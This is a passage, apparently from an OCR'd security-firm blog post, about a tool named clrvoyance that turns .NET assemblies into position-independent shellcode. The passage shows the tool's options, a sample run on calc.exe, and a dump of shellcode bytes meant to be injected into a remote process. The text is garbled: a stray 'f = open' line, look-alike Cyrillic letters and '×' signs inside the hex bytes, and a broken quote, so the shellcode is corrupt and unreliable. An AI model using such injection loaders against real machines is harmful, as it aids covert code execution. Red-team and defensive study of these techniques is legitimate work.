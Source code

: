 We now turn our attention to executing this in an unmanaged process. As previously described, using a reflective DLL allows for this but is rather cumbersome and inflexible. Instead we’ve chosen to implement our loader entirely in a position-independent assembly. This enables more flexibility in execution and a more compact payload size.
f = open
Our implementation includes x86 and x64 shellcode and a Python script for generating a final payload. Further, we provide a few different flags for more advanced options, which we’ll describe in detail. Our choice to generate shellcode as opposed to a complete package was a simple deferment of responsibility. Our consultants use a variety of injection strategies across languages and contexts; it’s increasingly difficult to manage and support them all. Shellcode gives us a ground floor implementation that’s portable across a variety of scenarios.

This Python script is the main entry point to generating shellcode:

```
$ python clrvoyance.py -h
usage: clrvoyance.py [-h] -a [executable] [-p [32|64]] [-d [net|c]] [-n] [--apc]

options:
  -h, --help       show this help message and exit
  -a [executable]  Assembly
  -p [32|64]       Platform
  -d [net|c]       Dump binary shellcode of assembly
  -n               Load assembly into a new domain
  --apc            Use safe APC shellcode
```

The options should be straight forward. Generating shellcode simply requires we pass in a managed assembly:

```
$ python clrvoyance.py -a calc.exe -p 32
[+] 4096 byte assembly
[+] 1412 byte bootstrap
[+] 5507 byte shellcode written out (calc.exe shellcode)
```

This produces a binary file that can be loaded/run on any Windows machine. We also provide options for producing .NET and C formatted shellcode:

```
$ python clrvoyance.py -a calc.exe.shellcode -d c
"\xe8\x00\x00\x00\x00\x5b\x68\x42\x31\x0е\x00\x68\x88\x4e\x0d\x00"
"\xe8\x2c\x04\x00\x00\x6а\x04\x68\x00\x10\x00\x00\x68\x00\x03\x00"
"\x00\x6а\x00\xff\xd0\x85\xc0\x0f\x84\x4f\x03\x00\x00\x64\x8b\x35"
"\×18\×00\x00\x00\x89\x46\х14\x68\x86\x57\x0d\x00\x68\x88\x4e\x0d*
"\x00\xe8\xfb\x03\x00\x00\x64\x8b\x35\x14\x00\x00\x00\x83\xc6\x38"
"\x89\x06\x8d\xb3\x45\x05\x00\x00\x56\x64\x8b\x35\x14\x00\x00\x00"
"\x83\xс6\x38\xff\x16\x8d\xb3\x39\x05\x00\x00\x56\x64\x8b\x35\x14"
"\x00\x00\x00\x83\xс6\x38\xff\x16\x68\x72\x54\x6b\x00\x68\x88\x8c"
...
```

To use this code, one would simply need to load it into a remote process and trigger execution.

## Shellcode execution modes – asynchronous procedure call (APC)

